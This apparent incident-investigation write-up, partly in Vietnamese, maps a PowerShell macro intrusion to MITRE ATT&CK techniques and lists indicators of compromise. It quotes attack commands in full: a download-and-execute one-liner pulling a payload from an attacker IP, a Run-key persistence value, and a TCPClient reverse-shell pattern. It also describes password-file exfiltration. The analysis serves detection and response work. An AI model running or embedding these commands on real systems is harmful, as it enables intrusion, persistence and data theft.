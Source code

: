 ### Details:

| # | Timestamp (UTC+7)       | Event ID / Rule ID | Description                                                                                     | MITRE ATT\&CK Tactic               | MITRE ATT\&CK Technique (ID / Name)                                                 |
| - | ----------------------- | ------------------ | ----------------------------------------------------------------------------------------------- | ---------------------------------- | ----------------------------------------------------------------------------------- |
| 1 | 2025-08-14 15:56:58.071 | 4103 / 100206      | **Invoke-WebRequest** tải `Test.ps1` từ máy chủ `192.168.200.132` và lưu thành `payload.ps1`    | **Command and Control**            | **T1105 – Ingress Tool Transfer** (Tải công cụ/payload từ máy chủ C2)               |
| 2 | 2025-08-14 15:56:58.884 | 11 / 92213         | File `payload.ps1` được tạo trong thư mục `%TEMP%`                                              | **Command and Control**            | **T1105 – Ingress Tool Transfer** (Lưu trữ công cụ độc hại tại endpoint)            |
| 3 | 2025-08-14 15:56:58.885 | 1 / 92029          | `powershell.exe -ep bypass -f payload.ps1` được thực thi từ vị trí đáng ngờ                     | **Execution**                      | **T1059.001 – Command and Scripting Interpreter: PowerShell**                       |
| 4 | 2025-08-14 15:56:58.915 | 13 / 192302        | Sửa registry key `HKCU\...\Run\OfficeUpdate` để thực thi khi đăng nhập                          | **Persistence / Privilege Escal.** | **T1547.001 – Boot or Logon Autostart Execution: Registry Run Keys/Startup Folder** |
| 5 | 2025-08-14 15:56:58.995 | 4104 / 100502      | PowerShell tạo TCPClient kết nối `192.168.200.132:4444` (reverse shell)                         | **Command and Control**            | **T1071.004 – Application Layer Protocol: Web Protocols** *(hoặc T1071 chung)*      |
| 6 | 2025-08-14 15:57:47.948 | 4103 / 100206      | PowerShell tiếp tục sử dụng `Invoke-WebRequest` (để `exfil` dữ liệu)| **Exfiltration / C2**              | **T1041 – Exfiltration Over C2 Channel**|

## IOC

#### Network

- IP (attacker): 192.168.200.132
- Ports: HTTP 8000 (ingress/tool transfer & exfil), TCP 4444 (reverse shell)
- URL: http://192.168.200.132:8 000/Test.ps1
- HTTP POST target: http://192.168.200.132:8000/ (exfil via POST)

#### Host / Files

- Malicious spreadsheet: *.xlsm (macro-enabled)
- Downloaded payload: %TEMP%\payload.ps1
- e.g. C:\Users\noname\AppData\Local\Temp\payload.ps1
- Original script on attacker: Test.ps1
- Exfiltrated file example: Password.txt

#### Registry / Persistence

- Run key: HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\OfficeUpdate
- Registry value content: powershell.exe -w hidden -ep bypass -File "$env:TEMP\payload.ps1"

#### Processes / Commandlines
- C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -f C:\Users\...\AppData\Local\Temp\payload.ps1
- Macro command: powershell -w hidden -nop -c "Invoke-WebRequest 'http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1"
- Powershell code pattern: New-Object System.Net.Sockets.TCPClient('192.168.200.132',4444) or TCPClient(

#### Timestamps (from your logs)
- 2025-08-14 15:56:58 → 15:57:47 (UTC) — useful for narrowing windows of compromise in investigations

## Incident response
